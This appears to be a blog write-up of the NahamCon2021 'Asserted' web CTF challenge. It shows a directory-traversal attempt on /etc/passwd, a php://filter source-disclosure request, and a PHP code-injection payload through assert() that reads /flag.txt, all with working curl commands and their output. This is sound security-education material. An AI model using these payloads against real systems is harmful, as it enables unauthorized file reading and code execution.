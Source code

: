 ```yaml
---
title: "NahamCon2021 CTF - Asserted"
date: 2021-03-15T11:52:39+02:00
categories:
- writeup
- ctf
- nahamcon
- nahamcon2021
- 2021
---
```


## category

web - medium

## solution

The challenge URL dropped us on a page related to fitness, with not a lot of interesting interactions.

{{< figure src="/images/nahamcon/asserted.png" >}}

Navigating the pages you'd see a URL scheme where a `page` parameter is set. Eg: `page=about`. An `about.php` also exists, so this was potentially vuln to LFI. Using `..` in the `page` parameter resulted in a warning message indicating that some filtering was taking place.

```bash
$ curl "http://challenge.nahamcon.com:31497/index.php?page=../../../../../../../etc/passwd"
HACKING DETECTED! PLEASE STOP THE HACKING PRETTY PLEASE
```

PHP has [stream wrappers](https://www.php.net/manual/en/wrappers.php), one we could use to [read files from the filesystem](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md#wrapper-phpfilter). E.g.: `php://filter/convert.base64-encode/resource=<file>`. Specifying a file path with a `..` it still triggered the security check, but, we could download the source of the `index.php` file.

```bash
$ curl "http://challenge.nahamcon.com:31497/index.php?page=php://filter/convert.base64-encode/resource=index"
PD9waHANCg0KaWYgKGlzc2V0KCRfR0VUWydwYWdlJ10pKSB7DQogICRwYWdlID0gJF9HRVRbJ3BhZ2UnXTsNCiAgJGZpbGUgPSAkcGFnZSAuICIucGhwIjsNCg0KICAvLyBTYXZpbmcgb3Vyc2VsdmVzIGZyb20gYW55IGtpbmQgb2YgaGFja2luZ3MgYW5kIGFsbA0KICBhc3NlcnQoInN0cnBvcygnJGZpbGUnLCAnLi4nKSA9PT0gZmFsc2UiKSBvciBkaWUoIkhBQ0tJTkcgREVURUNURUQhIFBMRUFTRSBTVE9QIFRIRSBIQUNLSU5HIFBSRVRUWSBQTEVBU0UiKTsNCiAgDQp9IGVsc2Ugew0KICAkZmlsZSA9ICJob21lLnBocCI7DQp9DQoNCmluY2x1ZGUoJGZpbGUpOw0KDQo/Pg0K
```

Decoding that reveals the check in place.

```php
<?php

if (isset($_GET['page'])) {
  $page = $_GET['page'];
  $file = $page . ".php";

  // Saving ourselves from any kind of hackings and all
  assert("strpos('$file', '..') === false") or die("HACKING DETECTED! PLEASE STOP THE HACKING PRETTY PLEASE");

} else {
  $file = "home.php";
}

include($file);

?>
```

Immediately you should see that an `assert()` is called with some PHP source code as a string. We can inject PHP source code here because we can taint the string passed to `assert()` as `$file` is from the request, and thus user controlled. 

Testing this locally was pretty easy. Before the `assert()` call I added a line to log what the string would look like first. I then served the script with `php -S localhost:1337`.

```php
// ...

$d = "strpos('$file', '..') === false";
error_log(print_r($d, TRUE));

// ...
```

Using this debug line I added code to the request to close the original `strpos()` call so that it would fail, and closed off the rest of the original `strpos()` so that it would fail as well.

{{< figure src="/images/nahamcon/asserted_code_inject.png" >}}

Passing `','foo') === false && strpos('1` as a `page` parameter value would result in the application saying that it could not find the file we wanted to include. Excellent! The challenge hint tells us that the flag is in `/flag.txt`, so to echo that I just added a `die(file_get_contents('/flag.txt'))`, exactly the same way the security check worked.

```text
$ curl -G "http://challenge.nahamcon.com:31497/" --data-urlencode "page=','foo') === false && die(file_get_contents('/flag.txt')) && strpos('1"
flag{85a25711fa6e111ed54b86468a45b90c}
```
